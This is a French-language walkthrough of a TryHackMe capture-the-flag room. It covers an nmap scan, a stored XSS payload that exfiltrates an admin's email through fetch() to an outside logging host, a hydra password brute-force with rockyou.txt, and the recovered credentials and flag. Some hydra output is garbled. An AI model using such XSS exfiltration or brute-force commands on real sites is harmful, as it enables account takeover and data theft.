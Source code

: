 # That's The Ticket #

## Task 1 Lab Information ##  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.106.15 ticket.thm' >> /etc/hosts" 
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A ticket.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-30 21:00 CEST
Nmap scan report for ticket.thm (10.10.106.15)
Host is up (0.040s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:c3:9c:99:2c:c4:e2:d9:20:33:d1:3c:dc:01:48:d2 (RSA)
|   256 08:20:c2:73:c7:c5:d7:a7:ef:02:09:11:fc:85:a8:e2 (ECDSA)
|_  256 1f:51:68:2b:5e:99:57:4c:b7:40:15:05:74:d0:0d:9b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/30%OT=22%CT=1%CU=30569%PV=Y%DS=2%DC=T%G=Y%TM=617D96
OS:9E%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST
OS:11NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   33.06 ms 10.9.0.1
2   37.30 ms ticket.thm (10.10.106.15)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.01 seconds

```

Nmap nous détecte qu'il y a 2 services qui sont : 
Le service SSH sur le port 22.  
Le service HTTP sur le port 80.  

![page](./Task1-01.png)    

Sur la page principale on a choix entre s'enregistrer ou se connecter.   

![page](./Task1-02.png)    

On s'enregistre un nouveau utilisateur.   

![page](./Task1-03.png)    

Une fois enregistré on peut créer un ticket.  

![page](./Task1-04.png)  

On vérifie si le site n'est pas vulnérable au script XSS.  

![page](./Task1-05.png)  

Le site est vulnérable au script XSS.  

![page](./Task1-06.png)  

Cet exercice nous donne un outils pour écouter le DNS et les requêtes HTTP.  

![page](./Task1-07.png)   
![page](./Task1-08.png)   

En mettant le lien de notre outils on obtient un retour donc ça fonctionne.  

![page](./Task1-09.png)   

```js
</textarea>
<script>
var email = document.getElementById("email").innerHTML;
email = email.replace('@', 'X')
email = email.replace('.', 'Y')
fetch('http://'+email+'.c225795c9f12586a2effa88037fa268c.log.tryhackme.tech');
</script>
<textarea>
```

On dit d'envoyer l'émail sur le site qui écoute le dns.  

![page](./Task1-10.png)   

Sur la dernière requête on trouve l'adresse mail qu'il faut décoder car on a remplace x par @ et y par .  

**What is IT Supports email address?**

adminaccountxitsupportythm   
adminaccount@itsupport.thm   

L'adresse mail est : adminaccount@itsupport.thm    

**Admin users password**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l adminaccount@itsupport.thm -P /usr/share/wordlists/rockyou.txt ticket.thm http-post-form "/login:email=^USER^&password=^PASS^&Login=Login:Invalid email / password combination" -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David MacTHM{6804f45260135ec8418da2d906328473}t@itsupport.thm" - pass "hottie" - 62 of 14344432 [child 11] (0/33)
[80][http-post-form] host: ticket.thm   login: adminaccount@itsupport.thm   password: 123123
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.
...
```

On brute force le mot de passe.   
Le mot de passe est : 123123  

**Flag inside Ticket 1**

![page](./Task1-11.png)   
![page](./Task1-12.png)  

On se connecte sur le compte admin avec les identifiants : adminaccount@itsupport.thm:123123  
On trouve le flag dans le 1 er ticket.   
Le flag est :  THM{6804f45260135ec8418da2d906328473}